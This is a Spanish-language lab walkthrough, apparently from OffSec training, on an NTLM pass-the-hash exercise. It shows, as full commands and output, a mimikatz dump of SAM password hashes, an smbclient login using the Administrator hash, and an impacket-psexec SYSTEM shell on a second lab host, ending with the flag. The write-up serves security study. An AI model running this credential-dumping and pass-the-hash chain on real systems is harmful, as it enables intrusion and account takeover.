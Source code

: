 # Walk: Password Attacks - Passing NTLM - VM Group 1

## Fecha: 25/02/2025
## Hosts: Windows
## IP: 192.168.244.0/24 - 192.168.244.211 - 192.168.244.212
## Objetivo
Use the methods from this section to get access to VM #2 and find the flag on the desktop of the user _Administrator_.
## Herramientas
1. hydra
2. smbclient
3. impacket
## Procedimiento y comandos
> Las Credenciales para la maquina 192.168.244.211 son provistas por offsec. _**gunther**_ / _**password123!**_

#### Paso 1: Nos conectamos por RDP y obtenemos el hash NTLM _Administrator_
1. `xfreerdp /v:192.168.244.211 /u:gunther /p:password123! +clipboard /cert:ignore /drive:/tmp`
2. Una vez dentro corremos mimikatz
```
PS C:\Windows\system32> cd C:\tools
PS C:\tools> ./mimikatz.exe

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

572     {0;000003e7} 1 D 32978          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;0045142c} 2 F 5177127     FILES01\gunther S-1-5-21-1555802299-1328189896-734683769-1006   (15g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 5265620     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)
```
3. Listamos los hashes:
```
mimikatz # lsadump::sam
Domain : FILES01
SysKey : 509cc0c46295a3eaf4c5c8eb6bf95db1
Local SID : S-1-5-21-1555802299-1328189896-734683769

SAMKey : 201b0e3078f2be635aaaa055ab5a7828

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 7a38310ea6f0027ee955abed1762964b
...
RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount
  Hash NTLM: 36600e1b78cd803577d3e1bcbba8f143
...
RID  : 000003ee (1006)
User : gunther
  Hash NTLM: 8119935c5f7fa5f57135620c8073aaca
...

RID  : 000003ef (1007)
User : paul
  Hash NTLM: 57373a907ccd7196a2bad219132d615f
...
```
#### Paso 2: Nos autenticamos con el hash NTLM (Opcional)
> Este es un ejemplo de Autenticacion con un hash NTLM en un servicio SMB.
1. Elegimos una herramienta que admita autenticacion por medio del hash:
- Opciones:
	 - smbclient
	 - impacket
	 - mimikatz
> Utilizaremos smbclient con el parametro **--pw-nt-hash**
```
smbclient \\\\192.168.244.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Jun  2 17:55:37 2022
  ..                                DHS        0  Tue Feb 25 17:00:23 2025
  secrets.txt                         A       16  Thu Sep  1 13:23:32 2022

                4554239 blocks of size 4096. 1601499 blocks available
smb: \> get secrets.txt
getting file \secrets.txt of size 16 as secrets.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
smb: \> 
``` 
- Desde kali:
```
┌──(kali㉿kali)-[~/OffSec/16-PasswordAttacks/16.3.2-PassingNTLM]
└─$ cat secrets.txt                                  
this is a secret    
```
#### Paso 3: Obtener un shel interactivo:
> Utilizaremos impacket-psexec: _**"Busca un recurso compartido en el que se pueda escribir y carga un archivo ejecutable en él. Luego, registra el ejecutable como un servicio de Windows y lo inicia"**_
- Ejecutamos el comando: 
```
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.244.212

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 192.168.244.212.....
[*] Found writable share ADMIN$
[*] Uploading file ZHQCMdPt.exe
[*] Opening SVCManager on 192.168.244.212.....
[*] Creating service EmGa on 192.168.244.212.....
[*] Starting service EmGa.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.707]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> hostname 
FILES02

C:\Windows\system32>
```
- Pasamos de estar logeados como _**gunther**_ al usuario _**Administrator**_
#### Paso 4: Buscamos el flag:
```
C:\Windows\system32> cd ..
 
C:\Windows> cd ..
 
C:\> ls
'ls' is not recognized as an internal or external command,
operable program or batch file.
 
C:\> dir
 Volume in drive C has no label.
 Volume Serial Number is 7286-2AEA

 Directory of C:\

02/25/2025  12:00 PM             2,702 output.txt
05/08/2021  12:20 AM    <DIR>          PerfLogs
06/01/2022  02:06 PM    <DIR>          Program Files
05/08/2021  01:39 AM    <DIR>          Program Files (x86)
06/02/2022  12:55 PM    <DIR>          secrets
06/20/2022  07:24 PM    <DIR>          Users
02/25/2025  01:36 PM    <DIR>          Windows
               1 File(s)          2,702 bytes
               6 Dir(s)   6,559,584,256 bytes free

C:\> cd Users
 
C:\Users> dir
 Volume in drive C has no label.
 Volume Serial Number is 7286-2AEA

 Directory of C:\Users

06/20/2022  07:24 PM    <DIR>          .
03/01/2023  05:32 AM    <DIR>          Administrator
06/20/2022  07:24 PM    <DIR>          anastasia
06/09/2022  11:27 AM    <DIR>          files02admin
06/01/2022  02:04 PM    <DIR>          Public
               0 File(s)              0 bytes
               5 Dir(s)   6,559,584,256 bytes free

C:\Users> cd Administrator
 
C:\Users\Administrator> dir
 Volume in drive C has no label.
 Volume Serial Number is 7286-2AEA

 Directory of C:\Users\Administrator

03/01/2023  05:32 AM    <DIR>          .
06/20/2022  07:24 PM    <DIR>          ..
06/01/2022  02:04 PM    <DIR>          3D Objects
06/01/2022  02:04 PM    <DIR>          Contacts
06/09/2022  11:19 AM    <DIR>          Desktop
06/01/2022  02:04 PM    <DIR>          Documents
06/01/2022  02:04 PM    <DIR>          Downloads
06/01/2022  02:04 PM    <DIR>          Favorites
03/01/2023  05:32 AM             1,378 lab.ps1
06/01/2022  02:04 PM    <DIR>          Links
06/01/2022  02:04 PM    <DIR>          Music
06/01/2022  02:04 PM    <DIR>          Pictures
06/01/2022  02:04 PM    <DIR>          Saved Games
06/01/2022  02:04 PM    <DIR>          Searches
06/01/2022  02:04 PM    <DIR>          Videos
               1 File(s)          1,378 bytes
              14 Dir(s)   6,559,584,256 bytes free

C:\Users\Administrator> cd Desktop
 
C:\Users\Administrator\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is 7286-2AEA

 Directory of C:\Users\Administrator\Desktop

06/09/2022  11:19 AM    <DIR>          .
03/01/2023  05:32 AM    <DIR>          ..
02/25/2025  12:00 PM                38 flag.txt
               1 File(s)             38 bytes
               2 Dir(s)   6,559,584,256 bytes free

C:\Users\Administrator\Desktop> type flag.txt
OS{3a050***df2d5}

C:\Users\Administrator\Desktop> 
```
